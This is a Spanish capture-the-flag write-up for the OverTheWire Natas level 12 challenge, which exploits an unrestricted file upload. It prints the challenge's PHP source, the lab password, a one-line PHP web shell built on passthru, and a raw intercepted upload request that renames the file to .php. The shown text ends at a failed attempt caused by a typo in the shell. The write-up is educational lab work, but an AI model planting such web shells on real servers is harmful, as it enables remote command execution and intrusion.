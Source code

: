 #Natas Level 11 → Level 12

Username: natas12

URL:      http://natas12.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas12.natas.labs.overthewire.org** 
- **Usuario    : natas12**
- **Contraseña : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3**

La contraseña la hemos sacado del nivel anterior.

Entramos a la prueba y nos muestra un mensaje en el que nos dice que podemos subir un fichero **JPEG** pero con un **límite máximo** de **1KB**

```html
Choose a JPEG to upload (max 1KB):
```

Vamos a ver que vemos en el código fuente de la prueba:

```php
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() 
{ 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) 
    { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 
    return $string; 
} 

function makeRandomPath($dir, $ext) 
{ 
    do 
    { 
        $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) 
{ 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

  if(array_key_exists("filename", $_POST)) 
  { 
      $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
  
          if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) 
          { 
            echo "File is too big"; 
          } 
          else 
          { 
              if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) 
              { 
                  echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
              } 
              else
              { 
                  echo "There was an error uploading the file, please try again!"; 
              } 
          } 
  } 
  else 
  { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
    <input name="uploadedfile" type="file" /><br /> 
    <input type="submit" value="Upload File" /> 
</form> 

<? 
  } 
?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
```

Intentamos subir un fichero pero nos da un error probablemente relacionado con el tamaño del fichero (>1KB):

```html
There was an error uploading the file, please try again!
```

Parece que esta prueba trata de subir un fichero, en principio un **JPG**, que nos permita obtener la contraseña del reto. 

También hemos pensado que podemos **engañar** al sistema subiendo un fichero **php** con terminación en **JPG**. 

Algo así como esto:

```php
phpShell.php.jpg
```

El programa solamente mirará si la extensión del fichero es **JPG** y lo subirá la servidor.

Programamos una **Shell** en **PHP** muy sencilla que nos permitirá lanzar comandos en el servidor

```php
<?php
 passthru($_GET['cmd']);  
?>
```

Lo guardamos como **phpShell.php.jpg** con un tamaño de **35bytes** y lo intentamos subir. 

Con esto estaríamos pasando el filtro del **Tamaño* y el filtro de la **Extensión**

Pulsamos el botón de subir y nos sale este mensaje:

```html
The file upload/28plb5h3bh.jpg has been uploaded
```

Accedemos a la dirección y efectivamente tenemos nuestro objeto subido. Le intentamos cambiar la extensión a **.php** e introducirle algun comando, pero no responde.

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.jpg?cmd=ls 
```

ni tampoco con

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.php?cmd=ls 
```

Volvemos a leer el código fuente y nos damos cuenta que las funciones **makeRandomPathFromFilename** y **makeRandomPath** eliminan todo el texto anterior a la extensión **jpg**

Tenemos que conseguir **interceptar** el contenido que se envia y cambiarle la extensión a **.php** una vez que ha pasado el filtro de comprobación **jpg**

Para ello vamos a utilizar la herramienta **BURP** que podemos encontrar en la distro de Linux para **Pentesting** - **Kali Linux**

Configuramos el **proxy** del navegador apuntando al **localhost:8080** donde estará **BURP** escuchando para que luego podamos modificar los datos a nuestro antojo.

Subimos el fichero **phpShell.php.jpg** y luego lo cambiaremos luego con el **BURP**

Obtenemos lo siguiente:

```html
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas12.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------17458871318756377591816066944
Content-Length: 515

-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

phpShell.php.jpg
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

<?
passthru($GET_['cmd']);
?>
-----------------------------17458871318756377591816066944--
```


The file upload/ujofljdn2f.php has been uploaded

Notice: Undefined variable: GET_ in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2

Warning: passthru(): Cannot execute a blank command in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2



 












 




